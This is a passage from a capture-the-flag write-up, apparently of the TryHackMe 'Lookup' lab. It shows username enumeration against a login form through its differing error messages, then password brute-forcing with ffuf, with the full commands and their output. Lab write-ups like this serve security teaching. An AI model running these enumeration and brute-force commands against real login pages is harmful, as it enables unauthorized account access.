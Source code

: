 It seems the application returns different error messages for valid and invalid usernames. We can use this to enumerate valid users with `ffuf`.

```console
$ ffuf -u 'http://lookup.thm/login.php' -H 'Content-Type: application/x-www-form-urlencoded' -X POST -d 'username=FUZZ&password=test' -w /usr/share/seclists/Usernames/Names/names.txt -mc all -ic -fs 74 -t 100
...
admin                   [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 90ms]
jose                    [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 132ms]
```
{: .wrap }

With this, we discover two valid users: `admin` and `jose`.

Brute-forcing the password for the `jose` user with `ffuf`, we manage to discover the password for the user.

```console
$ ffuf -u 'http://lookup.thm/login.php' -H 'Content-Type: application/x-www-form-urlencoded' -X POST -d 'username=jose&password=FUZZ' -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -mc all -ic -fs 62 -t 100

pa[REDACTED]23             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 134ms]
```
{: .wrap }

Using the discovered credentials to log in through the form at `http://lookup.thm/`, we are redirected to `http://files.lookup.thm/`.

![Web 80 Login Three](/images/Posts/tryhackme_lookup/web_80_login3.webp){: width="1000" height="600" }

Adding it to the hosts file as well.
